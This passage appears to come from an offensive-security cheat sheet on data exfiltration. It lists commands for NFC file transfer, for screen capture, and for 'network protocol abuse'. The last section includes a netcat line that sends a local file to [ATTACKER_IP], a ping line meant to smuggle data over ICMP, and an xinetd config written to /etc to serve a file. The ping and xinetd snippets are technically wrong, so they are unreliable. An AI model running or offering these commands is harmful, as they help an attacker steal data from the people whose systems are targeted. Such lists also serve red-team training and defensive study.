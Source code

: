 1. **Using `nfc-send` on Linux to send a file via NFC:**

```
nfc-send /path/to/local/file.txt
```

2. **Using Android Beam on Android devices:**

```
Open the file you want to share, then tap the devices together to initiate NFC data transfer.
```

3. **Using third-party apps on mobile devices:** There are various apps available on app stores that allow you to send files through NFC. Search for "NFC file transfer" apps suitable for your platform.


### Exfiltration via Screenshots


1. **Using `scrot` on Linux to capture a screenshot:**

```
scrot screenshot.png
```

2. **Using `screencapture` on macOS to capture a screenshot:**

```
screencapture screenshot.png
```

3. **Using `Pillow` library in Python on Linux/macOS/Windows to take a screenshot:**

```
pip install Pillow  # Install the Pillow library
python -c "from PIL import ImageGrab; img = ImageGrab.grab(); img.save('screenshot.png')"
```

### Network Protocol Abuse

1. **Using `netcat` (nc) on Linux to send data via HTTP headers:**

```
nc [ATTACKER_IP] [ATTACKER_PORT] < /path/to/local/file.txt
```

2. **Using `ping` on Linux to encode data in ICMP packets:**

```
echo -n "Data to exfiltrate" | ping -c 1 -s 32 [ATTACKER_IP]
```

3. **Using `xinetd` to create a custom service for data exfiltration:**

```
echo -e "service exfil {\\n  type = UNLISTED\\n  socket_type = stream\\n  protocol = tcp\\n  wait = no\\n  user = nobody\\n  server = /path/to/local/file.txt\\n}" | tee /etc/xinetd.d/exfil
```


### USB Data Exfiltration
